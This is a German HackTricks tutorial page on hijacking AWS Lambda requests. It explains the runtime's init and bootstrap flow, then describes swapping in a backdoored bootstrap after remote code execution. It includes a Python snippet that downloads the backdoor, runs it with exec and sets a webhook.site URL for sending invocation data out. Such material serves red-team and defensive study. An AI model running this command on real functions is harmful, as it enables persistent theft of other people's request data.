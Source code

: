 # AWS - Lambda-Anfragen stehlen

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Heldenniveau mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Lambda-Fluss

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Aufrufe** an den **init**-Prozess sendet.
2. Der init-Prozess hört auf Port **9001** und stellt einige interessante Endpunkte bereit:
* **`/2018-06-01/runtime/invocation/next`** – erhält das nächste Aufrufereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gibt die Handler-Antwort für den Aufruf zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gibt einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Aufrufe vom init-Prozess abruft und den Benutzercode aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an init.

Beachten Sie, dass Bootstrap den Benutzercode als Modul lädt, sodass alle Codeausführungen, die vom Benutzercode durchgeführt werden, tatsächlich in diesem Prozess stattfinden.

## Lambda-Anfragen stehlen

Das Ziel dieses Angriffs ist es, den Benutzercode dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die verwundbare Anfrage verarbeitet. Auf diese Weise wird der **bösartige Bootstrap**-Prozess beginnen, mit dem init-Prozess zu **kommunizieren**, um die Anfragen zu verarbeiten, während der **legitime** Bootstrap **gefangen** ist und den bösartigen ausführt, sodass er nicht nach Anfragen an den init-Prozess fragt.&#x20;

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Eine gefälschte Ergebnis des aktuellen Aufrufs an den init-Prozess senden**, damit init denkt, der Bootstrap-Prozess wartet auf weitere Aufrufe.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.&#x20;
* Die invoke-id kann aus dem Stack des legitimen **`bootstrap.py`**-Prozesses mithilfe des [**inspect**](https://docs.python.org/3/library/inspect.html)-Python-Moduls (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) oder einfach erneut anfordern von **`/2018-06-01/runtime/invocation/next`** (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Führen Sie einen bösartigen **`boostrap.py`** aus, der die nächsten Aufrufe verarbeitet.
* Aus Gründen der Heimlichkeit können die Lambda-Aufrufparameter an ein vom Angreifer kontrolliertes C2 gesendet und dann die Anfragen wie gewohnt verarbeitet werden.
* Für diesen Angriff reicht es aus, den Originalcode von **`bootstrap.py`** aus dem System oder von [**GitHub**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn aus dem aktuellen Lambda-Aufruf auszuführen.

### Angriffsschritte

1. Finden Sie eine **RCE**-Verwundbarkeit.
2. Generieren Sie einen **bösartigen** **Bootstrap** (z. B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Führen** Sie den bösartigen Bootstrap aus.

Diese Aktionen können Sie problemlos ausführen, indem Sie:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
